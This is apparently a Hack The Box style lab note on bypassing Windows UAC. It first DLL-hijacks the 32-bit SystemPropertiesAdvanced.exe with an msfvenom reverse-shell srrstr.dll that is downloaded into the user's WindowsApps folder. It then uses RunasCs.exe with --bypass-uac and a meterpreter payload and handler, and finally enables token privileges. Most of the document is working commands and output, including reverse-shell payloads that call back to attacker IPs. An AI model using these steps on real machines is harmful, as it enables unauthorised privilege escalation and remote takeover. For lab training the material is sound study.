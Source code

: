 The [UACMe](https://github.com/hfiref0x/UACME) repo features a comprehensive list of UAC bypasses, which can be used from the command line. project maintains a list of UAC bypasses, including information on the affected Windows build number, the technique used, and if Microsoft has issued a security update to fix it. 

## Manual DLL Bypass

Let's use technique number 54, which is stated to work from Windows 10 build 14393. This technique targets the 32-bit version of the auto-elevating binary `SystemPropertiesAdvanced.exe`. There are many trusted binaries that Windows will allow to auto-elevate without the need for a UAC consent prompt.

According to [this](https://egre55.github.io/system-properties-uac-bypass) blog post, the 32-bit version of `SystemPropertiesAdvanced.exe` attempts to load the non-existent DLL srrstr.dll, which is used by System Restore functionality.

When attempting to locate a DLL, Windows will use the following search order.

1. The directory from which the application loaded.
2. The system directory `C:\Windows\System32` for 64-bit systems.
3. The 16-bit system directory `C:\Windows\System` (not supported on 64-bit systems)
4. The Windows directory.
5. Any directories that are listed in the PATH environment variable.

#### Reviewing Path Variable

Let's examine the path variable using the command `cmd /c echo %PATH%`. This reveals the default folders below. The `WindowsApps` folder is within the user's profile and writable by the user.

```powershell-session
PS C:\htb> cmd /c echo %PATH%

C:\Windows\system32;
C:\Windows;
C:\Windows\System32\Wbem;
C:\Windows\System32\WindowsPowerShell\v1.0\;
C:\Users\sarah\AppData\Local\Microsoft\WindowsApps;
```

We can potentially bypass UAC in this by using DLL hijacking by placing a malicious `srrstr.dll` DLL to `WindowsApps` folder, which will be loaded in an elevated context.

#### Generating Malicious srrstr.dll DLL

First, let's generate a DLL to execute a reverse shell.

```shell-session
slomkm@htb[/htb]$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.3 LPORT=8443 -f dll > srrstr.dll

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of dll file: 5120 bytes
```

> [!NOTE]
> In the example above, we specified our tun0 VPN IP address.

#### Starting Python HTTP Server on Attack Host

Copy the generated DLL to a folder and set up a Python mini webserver to host it.

```shell-session
slomkm@htb[/htb]$ sudo python3 -m http.server 8080
```

#### Downloading DLL Target

Download the malicious DLL to the target system, and stand up a `Netcat` listener on our attack machine.

```powershell-session
PS C:\htb>curl http://10.10.14.3:8080/srrstr.dll -O "C:\Users\sarah\AppData\Local\Microsoft\WindowsApps\srrstr.dll"
```

#### Starting nc Listener on Attack Host

```shell-session
slomkm@htb[/htb]$ nc -lvnp 8443
```

#### Executing SystemPropertiesAdvanced.exe on Target Host

Now, we can try the 32-bit version of `SystemPropertiesAdvanced.exe` from the target host.

```cmd
C:\htb> C:\Windows\SysWOW64\SystemPropertiesAdvanced.exe
```

#### Receiving Connection Back

Checking back on our listener, we should receive a connection almost instantly.

```shell-session
slomkm@htb[/htb]$ nc -lvnp 8443

listening on [any] 8443 ...
connect to [10.10.14.3] from (UNKNOWN) [10.129.43.16] 50273
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami

whoami
winlpe-ws03\sarah


C:\Windows\system32>whoami /priv

whoami /priv
PRIVILEGES INFORMATION
----------------------
Privilege Name                            Description                                                        State
========================================= ================================================================== ========
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Disabled
SeSecurityPrivilege                       Manage auditing and security log                                   Disabled
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Disabled
SeLoadDriverPrivilege                     Load and unload device drivers                                     Disabled
SeSystemProfilePrivilege                  Profile system performance                                         Disabled
SeSystemtimePrivilege                     Change the system time                                             Disabled
SeProfileSingleProcessPrivilege           Profile single process                                             Disabled
SeIncreaseBasePriorityPrivilege           Increase scheduling priority                                       Disabled
SeCreatePagefilePrivilege                 Create a pagefile                                                  Disabled
SeBackupPrivilege                         Back up files and directories                                      Disabled
SeRestorePrivilege                        Restore files and directories                                      Disabled
SeShutdownPrivilege                       Shut down the system                                               Disabled
SeDebugPrivilege                          Debug programs                                                     Disabled
SeSystemEnvironmentPrivilege              Modify firmware environment values                                 Disabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled
SeRemoteShutdownPrivilege                 Force shutdown from a remote system                                Disabled
SeUndockPrivilege                         Remove computer from docking station                               Disabled
SeManageVolumePrivilege                   Perform volume maintenance tasks                                   Disabled
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled
SeCreateGlobalPrivilege                   Create global objects                                              Enabled
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Disabled
SeTimeZonePrivilege                       Change the time zone                                               Disabled
SeCreateSymbolicLinkPrivilege             Create symbolic links                                              Disabled
SeDelegateSessionUserImpersonatePrivilege Obtain an impersonation token for another user in the same session Disabled
```

This is successful, and we receive an elevated shell that shows our privileges are available and can be enabled if needed.

---

## RunasCs.exe Bypass
### Check privileges

When you have shell, you may run `whoami /priv` put this shell is in lower intigrety level, So you may have good privileges but you can't see them.

```powershell
PS C:\htb> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                                              State
============================= ======================================================= ========
SeChangeNotifyPrivilege       Bypass traverse checking                                Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set                          Disabled
```

### UAC bypass

So you need to bypass the UAC to get highter intigrety level shell. You can use  [UACME](https://github.com/hfiref0x/UACME) or `RunasCs.exe`
we have used `-r` for reverse shell, you can make your own reverse shell or execute what ever you want. And `-b` to bypass UAC.

```batch
PS C:\ProgramData> .\RunasCs.exe <username> <password> cmd -r <My-ip>:<PORT> --bypass-uac --logon-type '8'
```

### Enable privileges

After that you need to enable your privileges.
Using powershell directly may make you suffer. So try to use `msfvenom`, `metasploit`


```sh
oxdf@hacky$ msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=10.10.14.6 LPORT=9001 -f exe -o rev.exe
oxdf@hacky$ msfconsole
...[snip]...
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST tun0
LHOST => tun0
msf6 exploit(multi/handler) > set LPORT 9001
LPORT => 9001
msf6 exploit(multi/handler) > run
```

At Target:

```powershell
PS 1.st_reverse_shell> .\rev.exe
```

At Metasploit:

```sh
msf6 exploit(multi/handler) >

[*] Started reverse TCP handler on 10.10.14.6:9001
[*] Sending stage (201798 bytes) to 10.10.11.251
[*] Meterpreter session 1 opened (10.10.14.6:9001 -> 10.10.11.251:49690) at 2024-06-03 17:05:50 -0400

meterpreter > getuid
Server username: POV\alaading
```

You may find your self Enabled privileges and if not use `Enable-Privilege.ps1` to enable your priv

```powershell
PS C:\htb> Import-Module .\Enable-Privilege.ps1
PS C:\htb> .\EnableAllTokenPrivs.ps1
PS C:\htb> whoami /priv

PRIVILEGES INFORMATION
----------------------
Privilege Name                Description                              State
============================= ======================================== =======
SeTakeOwnershipPrivilege      Take ownership of files or other objects Enabled
SeChangeNotifyPrivilege       Bypass traverse checking                 Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set           Enabled
```
